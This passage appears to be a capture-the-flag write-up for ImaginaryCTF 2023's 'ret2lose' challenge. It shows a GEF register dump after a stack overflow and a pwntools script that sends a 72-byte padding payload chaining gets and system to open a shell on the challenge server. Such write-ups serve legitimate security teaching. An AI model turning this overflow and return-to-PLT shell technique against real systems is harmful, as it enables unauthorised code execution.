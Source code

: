 <pre><font color="#585858"><b>───────────────────────────────────────────────────────────────── </b></font><font color="#2AA1B3">registers</font><font color="#585858"><b> ────</b></font>
<font color="#C01C28"><b>$rax   </b></font>: 0x007f1646c1ba80  →  <font color="#A2734C">&quot;bbbbabbb&quot;</font>
<font color="#C01C28"><b>$rbx   </b></font>: 0x0               
<font color="#C01C28"><b>$rcx   </b></font>: 0x007f1646c19aa0  →  0x00000000fbad2088
<font color="#C01C28"><b>$rdx   </b></font>: 0x62626261        
<font color="#C01C28"><b>$rsp   </b></font>: <font color="#A347BA">0x007fff6410dda8</font>  →  <font color="#C01C28">0x00000000401156</font>  →  <font color="#585858"><b>&lt;main+0&gt; endbr64 </b></font>
<font color="#C01C28"><b>$rbp   </b></font>: 0x6161616161616161 (&quot;<font color="#A2734C">aaaaaaaa</font>&quot;?)
<font color="#C01C28"><b>$rsi   </b></font>: 0x62626262        
<font color="#C01C28"><b>$rdi   </b></font>: 0x007f1646c1ba80  →  <font color="#A2734C">&quot;bbbbabbb&quot;</font>
<font color="#C01C28"><b>$rip   </b></font>: 0x0               
<font color="#12488B">$r8    </font>: 0x0               
<font color="#C01C28"><b>$r9    </b></font>: 0x0               
<font color="#12488B">$r10   </font>: 0x77              
<font color="#12488B">$r11   </font>: 0x246             
<font color="#C01C28"><b>$r12   </b></font>: <font color="#A347BA">0x007fff6410dea8</font>  →  <font color="#A347BA">0x007fff6410f188</font>  →  <font color="#A2734C">&quot;/media/sf_E_DRIVE/CTFs/ImaginaryCTF23/ret2lose/vul[...]&quot;</font>
<font color="#C01C28"><b>$r13   </b></font>: <font color="#C01C28">0x00000000401156</font>  →  <font color="#585858"><b>&lt;main+0&gt; endbr64 </b></font>
<font color="#C01C28"><b>$r14   </b></font>: <font color="#C01C28">0x00000000403e18</font>  →  <font color="#C01C28">0x00000000401120</font>  →  <font color="#585858"><b>&lt;__do_global_dtors_aux+0&gt; endbr64 </b></font>
<font color="#C01C28"><b>$r15   </b></font>: 0x007f1646d5b040  →  0x007f1646d5c2e0  →  0x0000000000000000
<font color="#C01C28"><b>$eflags</b></font>: [zero carry parity <b>ADJUST</b> sign trap <b>INTERRUPT</b> direction overflow <b>RESUME</b> virtualx86 identification]
<font color="#12488B">$cs</font>: 0x33 <font color="#12488B">$ss</font>: 0x2b <font color="#12488B">$ds</font>: 0x00 <font color="#12488B">$es</font>: 0x00 <font color="#12488B">$fs</font>: 0x00 <font color="#12488B">$gs</font>: 0x00 
</pre>

Here as we can see the 5th character is one smaller than the sent input. I assume that it might be due to some flag variable present. Now that we have `rdi` control we can just call `system` with `/bin/sh` as argument in the `rdi` register.

```py
from pwn import *

elf = context.binary = ELF("./vuln",checksec=False)
p = elf.process()
p = remote(b"ret2win.chal.imaginaryctf.org", 1337)

# gdb.attach(p,'''
#     init-gef
#     b *0x0000000000401050
#     c  
# ''')

# print(elf.sym)

payload = b"a"*72 + p64(elf.plt.gets) + p64(elf.plt.system)
p.sendline(payload)

p.sendline(b"/bin0sh\x00")

p.interactive()
```
